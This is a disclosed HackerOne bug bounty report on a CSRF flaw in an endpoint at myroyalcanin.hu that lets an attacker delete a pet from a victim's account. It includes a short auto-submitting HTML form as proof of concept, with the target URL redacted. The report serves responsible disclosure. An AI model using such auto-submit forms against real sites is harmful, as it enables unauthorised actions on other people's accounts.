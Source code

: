 # CSRF to delete a pet

## Report Details
- **Report ID**: 2029753
- **URL**: https://hackerone.com/reports/2029753
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-06-17T08:34:06.292Z
- **Disclosed**: 2023-08-30T15:47:40.031Z

## Reporter
- **Username**: dd_06
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mars

## Vulnerability Information
## Summary:
The ```/kisallataim/ANIMAL_ID/delete``` API endpoint at **myroyalcanin.hu** is vulnerable to Cross-Site Request Forgery attacks.
This vulnerability allows an attacker to delete a pet from the victim's account.

(Sorry for my English, I'm French)

## Proof-of-Concept (PoC)
```html
<html>
  <body>
    <form action="████">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
You have to replace **ANIMAL_ID** with the ID of the victim's pet you wish to delete.

## Impact

An attacker can exploit this CSRF in order to delete the victim's pet.

## Attachments
No attachments
